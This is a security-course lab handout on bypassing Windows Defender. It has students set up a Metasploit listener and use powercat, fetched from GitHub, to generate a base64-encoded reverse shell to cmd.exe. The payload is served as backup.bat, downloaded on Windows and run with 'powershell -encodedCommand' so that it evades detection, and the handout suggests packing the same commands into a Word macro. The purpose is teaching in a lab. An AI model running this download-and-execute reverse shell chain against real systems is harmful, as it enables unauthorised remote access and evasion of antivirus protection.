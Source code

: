 ```yaml
---
layout: editorial
---
```


# Bypassing Windows Defender

## Discussion

Windows Defender is a powerful access control and antivirus software solution. It is updated automatically in the background on Windows systems. Many organizations are using it instead of having to purchase enterprise antivirus solutions which is just one more product to keep track of for security professionals. It also has a feature that will send a file that is not signed with a certificate to Microsoft servers for analysis. It will alert and delete the offending file.

Threat actors take advantage of a variety of methods to bypass Windows Defender and other antivirus solutions.

## Lab Preparation

1. You need your Windows 10 system
2. Kali should be on your WAN segment (because of the reverse backdoor and it is the c2 server)
3.  Start a listener with Metasploit

    ```
        a. **use exploit/multi/handler**

        b. **Set PAYLOAD cmd/unix/reverse_netcat**

        c. Set the LHOST to your Kali IP

        d. Set the LPORT to **4433**

        e. Check your options to be sure it looks good

        f. Run: **exploit**
    ```

## Start the lab

Open a new terminal in your Kali workstation. Become the root user:

**sudo su -**

Run the following command and change **KALI\_IP** to your Kali IP:

pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1') ; powercat -c **KALI\_IP** -p **4433** -e cmd.exe -ge" > /var/www/html/backup.bat

The commands above uses Powershell for Linux (**pwsh**) to download (**iex**) a file from a remote server (**New-Object System.Net.Webclient**)**.DownloadString**). The file it downloads is Powercat. Powercat is a Powershell version of ncat like the labs you did earlier in the semester. The semicolon separates commands. The next command it is going to run is to set the IP of your Kali machine and set the Port number to connect to it and execute cmd.exe when someone connects (**-e cmd.exe**). It will generate the code to connect to your Kali server, but it will encode the commands using base64 (**-ge**). Base64 is an encoding format that is generally used to convert binary data to ASCII or standard characters. The generated payload will be save do the web root (\*\* > /var/www/html/backup.bat\*\*)



## Base64

Below is a quick tutorial on Base64 encoding.

> **Base64 Exercise:**

```
Open a new Kali terminal.

Run the command:

**echo hello | base64**

You should see:  **aGVsbG8K**

Note how the output is a string of text.  If you look at your partner’s, you’ll see they have the exact same output from running the command.

Now to decode the base64 back to the text “hello” run:

**echo aGVsbG8K** | **base64 -d**

**-d means to decode**.

Note how it is back to the normal “hello” text.

Base64 is used by threat actors to hide their activity. Note, however, you can decode it when you detect it.
```



## Back to the bypassing defender Lab

Run the command:

**cat /var/www/html/backup.bat**

That is a lot of base64 encoding. The full output of the encoding can be decoded with:

**cat /var/www/html/backup.bat | base64 -d**

The output is the Windows (and Linux) scripting language called Powershell.

Check to be sure your Metasploit listener is running.

## Windows 10

Switch to your Windows 10 workstation. Remember the WinSCP file that you created?

Download it to your Windows 10 computer and run it.

What happens?

Defender is catching it as soon as it downloads so it won’t work as expected. This is where threat actors have to get creative.

## The Bypass

**NOTE: As you perform this part of the lab, what you are doing is what happens behind the scenes when someone injects malicious code into a Word document, PDF document, or some other code injection. When someone clicks the “Enable Macros” these commands will run. These exact commands can be used or a variation of the commands.**

Click on the start menu and type:

**powershell**

Then hit Enter.

That will put you in a Powershell prompt. The prompt will start with PS and have a blue background.

**e.g.**

![example](https://i.imgur.com/zSPdUJC.png)

Run the following command (The command is all one line and change **KALI\_IP** to your Kali IP):

**Invoke-webrequest -URI 'http://KALI\_IP/backup.bat' -outfile 'C:\ProgramData\backup.bat'**

Check to be sure the file downloaded with the command:

**Get-Content C:\ProgramData\backup.bat**

The output look familiar when you ran it on Linux?

Now run the command:

**powershell.exe -encodedCommand (Get-Content 'c:\ProgramData\backup.bat' -raw)**

The powershell command above decodes the base64 encoding (**-encodedCommand**) and opens the file and reads the contents (**Get-Content 'c:\ProgramData\backup.bat’**)

**Switch back to your Kali workstation** and give it a moment and you’ll see the Windows Prompt on your Windows 10 workstation.

This is one method attackers use to inject malicious code inside Word, Excel, or Powerpoint document and obtain a remote shell. If you hear about a “malicious macro,” the macro is running commands very similar to what you did. The same commands you type do work, but threat actors will change commands to try and avoid detection.

I’ll leave it up to you to learn to create a Word Macro and try the commands above. In your own time.

For the macro to work, you’ll want to combine these commands to make it easier.

**Submission:**

Create a screenshot showing the IP address of the Windows 10 from the reverse shell.
